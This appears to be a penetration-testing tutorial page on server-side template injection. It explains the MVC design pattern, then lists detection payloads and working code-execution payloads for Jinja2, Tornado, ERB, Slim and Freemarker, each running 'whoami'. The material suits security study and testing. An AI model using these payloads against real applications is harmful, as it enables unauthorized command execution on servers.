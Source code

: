 ```yaml
---
description: Server-Side Template Injection
---
```


# SSTI

Server-side template injection can be used for XSS, sensitive information disclosures, and even code execution.

**💡NOTE:**

To understand server-side template injection you must understand templates and to understand templates you must understand the model–view–controller design pattern.

View is used to manipulate the HTML code and is normally implemented using templates.

Templates allow you to have placeholders in your HTML code where you can pass in variables.

* Template engines can do all kinds of things such as calling functions and methods, looping over variables, and arithmetic.
* EX: the expression “\{{Title\}}” will be replaced by whatever argument is passed to the template engine:

```html
  <head>
    <title>{{Title}}</title>
  </head>
```

#### Model–view–controller design pattern

a user initiates a request to the controller -> controller uses the model to gather information from the back-end database -> information is passed back to the controller -> controller passes the information to the view the updated view is passed back to the controller -> sent to the user and rendered in the browser.

<figure><img src="../.gitbook/assets/Screenshot 2023-10-05 211128.png" alt=""><figcaption></figcaption></figure>

## Examples of Template Engines

### <mark style="color:yellow;">1. Python - Jinja 2</mark>

If you find server-side template injection in the Jinja 2 template engine the severity of your finding depends on what Python classes you have access to.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Method Resolution Order (MRO):** is the order in which Python looks for a method in a hierarchy of classes.

* For this attack, we only care about the root object class.

**SSTI testing payloads:**

* \{{7\*7\}}        ->  49
* \{{7\*’7’\}}       ->  7777777
* \{{‘’.\_\_class\_\_.\_\_mro\[1]\}}    -> get the root object by the second index in the array.
* \{{\[].\_\_class\_\_.\_\_base\_\_\}}  -> get the root object on an empty array.
* \{{\[].\_\_class\_\_.\_\_mro\[1]\_\_subclasses\_\_()\}}  -> list all the subclasses of a class.

<mark style="color:green;">**For Code Execution:**</mark>

* \{{\[].\_\_class\_\_.\_\_mro\_\_\[1].\_\_subclasses\_\_()\[-3]\('whoami',shell=True,stdout=-1).communicate()\[0]\}}
* \{{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'].popen('whoami').read()\}}

### <mark style="color:yellow;">2. Python - Tornado</mark>

Tornado is a scalable, non-blocking web server and web application framework written in Python.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

Any library available to Python is also available to the template engine, which means you can import a Python library and call it.

<mark style="color:green;">**For Code Execution:**</mark>

* { % import os %\}\{{ os.popen("whoami").read() \}}
* { % import subprocess %\}\{{ subprocess.Popen('whoami',shell=True,stdout=-1).communicate()\[0]\}}

### <mark style="color:yellow;">3. Ruby- ERB</mark>

Looks like a plain-text document interspersed with tags containing Ruby code.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

**ERB tags for embedding code:**

* <% code %>   -> executes ruby code.
* <%= code %> -> executes ruby code and returns the results.

**SSTI testing payloads:**

* <%= 7 \* 7 %>   -> 49
* <%= 'whoami' %>
* <%= IO.popen('whoami').readlines() %>
* <%= require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
* <%= require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

### <mark style="color:yellow;">4. Ruby - Slim</mark>

Fast, lightweight templating engine with support for Rails 3 and later.

Like the ERB template engine, you can execute any ruby command you want.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

To execute a shell command just wrap your command in backticks.

* <mark style="color:green;">#{code}</mark>
* \#{ 'whoami' }

### <mark style="color:yellow;">5. Java - Freemarker</mark>

The most popular template engine for Java.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

The **new()** command is used to instantiate classes -> execute class can be used to execute shell commands.

* ${7\*7}  ->  49

<mark style="color:green;">**For Code Execution:**</mark>

* <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}
* \[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('whoami')}
* ${"freemarker.template.utility.Execute"?new()("whoami")}

